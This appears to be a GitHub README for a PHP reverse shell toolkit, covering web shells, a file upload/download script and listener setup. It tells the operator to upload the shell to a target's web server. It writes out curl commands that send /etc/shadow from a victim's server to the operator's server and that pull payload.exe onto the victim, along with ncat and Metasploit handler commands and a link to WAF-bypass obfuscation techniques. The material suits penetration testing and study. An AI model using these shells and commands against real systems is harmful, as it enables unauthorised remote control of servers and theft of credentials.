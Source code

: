 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## Table of Contents

* [Reverse Shells](#reverse-shells)
* [Web Shells](#web-shells)
* [File Upload/Download Script](#file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## Reverse Shells

[/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is used.

[/src/reverse/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## Web Shells

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

## File Upload/Download Script

Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.php -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.php -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.php?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
